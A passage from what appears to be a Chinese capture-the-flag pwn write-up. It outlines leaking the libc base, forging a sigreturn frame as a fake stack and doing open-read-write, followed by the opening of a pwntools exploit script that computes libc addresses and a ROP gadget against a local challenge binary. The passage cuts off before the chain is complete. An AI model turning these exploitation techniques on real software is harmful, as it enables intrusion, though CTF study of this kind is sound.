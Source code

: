 思路：

*   由上面得知，我们可以进行泄露 libc 基地址，所以我们可以获得 orw
*   我们没法进行溢出，但是可以利用伪造的 sigFrame 构造一个 fake\_stack，之后再进行栈溢出
*   进行 orw

exp:

```bash
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()




ru('gift: ')
puts=int(r(14),16)
leak('puts',puts)

libcbase=puts-libc.symbols['puts']
leak('libcbase',libcbase)

open_addr=libcbase+libc.symbols['open']
leak('open_addr',open_addr)

read_addr=libcbase+libc.symbols['read']
leak('read_addr',read_addr)

write_addr=libcbase+libc.symbols['write']
leak('write_addr',write_addr)

bss=libcbase+libc.bss()
leak('bss',bss)

rdi_ret=libcbase+0x0000000000021112
```
